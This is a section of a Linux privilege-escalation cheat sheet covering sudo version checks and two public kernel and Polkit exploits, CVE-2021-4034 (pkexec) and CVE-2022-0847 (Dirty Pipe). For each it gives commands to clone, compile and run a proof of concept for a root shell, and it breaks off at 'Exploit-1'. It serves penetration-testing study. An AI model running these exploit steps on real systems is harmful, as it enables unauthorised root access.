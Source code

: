   ---
  
  <a id="10.6-cves"></a>
  ## **0-Days (CVEs)**

  * **Sudo**

    ```bash
    sudo -V | head -n1
    ```

    Search for exploits.

    ---

  * **Polkit**

    Try:

    **`pkexec -u root id`**

    To get a shell:

    ```bash
    git clone https://github.com/arthepsy/CVE-2021-4034.git
    cd CVE-2021-4034
    gcc cve-2021-4034-poc.c -o poc
    ./poc
    ```

    ---

  * **Dirty Pipe**

    Vulnerability in the Linux kernel, where we can edit root files.

    **`5.8`** to **`5.17`**  ([CVE-2022-0847](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0847))

    To check if it is vulnerable:

    **`uname -r`**

    ---

    ```bash
    git clone https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits.git
    cd CVE-2022-0847-DirtyPipe-Exploits
    # transfer all files to the target and then:
    bash compile.sh
    ```

    There are two versions of the exploit to use:

    ### Exploit-1
